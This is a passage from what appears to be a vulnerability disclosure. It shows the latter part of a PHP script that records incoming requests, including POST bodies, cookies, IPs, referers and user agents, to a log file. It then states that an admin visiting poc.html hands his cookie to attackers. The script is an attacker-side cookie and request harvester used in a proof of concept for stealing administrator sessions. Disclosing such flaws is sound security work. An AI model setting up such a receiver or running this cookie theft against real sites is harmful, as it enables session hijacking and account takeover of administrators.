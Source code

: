 ```
	$logadd    = 'TIME:'.$time."\r\n".'IP:'.$ip.' '.'URL:'.$filename.'?'.$parameter."\r\n".'cookie:';
}
if($method == 'POST') {
	$post      = file_get_contents("php://input",'r');
	$logadd    = 'TIME:'.$time."\r\n".'IP:'.$ip.' '.'URL:'.$filename.'?'.$parameter."\r\n".'METHOD:'.$method.' '.'DATA:'.$post."\r\n".'cookie:';
}

fwrite($fh, $logadd);
fwrite($fh,"\r\n");
if(isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
	fwrite($fh,"X_Forwarded_For:");
	fwrite($fh,var_export($_SERVER['HTTP_X_FORWARDED_FOR'], true)."\r\n");
}
if(isset($_SERVER['HTTP_REFERER'])){
	fwrite($fh,"Referer:");
	fwrite($fh,var_export($_SERVER['HTTP_REFERER'], true)."\r\n");
}
if(isset($_SERVER['HTTP_USER_AGENT'])){
	fwrite($fh,"USER_AGENT:");
	fwrite($fh,var_export($_SERVER['HTTP_USER_AGENT'], true)."\r\n");
}
fwrite($fh,$others."\r\n");
?>
```

When the admin accesses poc.html, attackers can get his cookie:

![6.png](./img/6.png)

![7.png](./img/7.png)
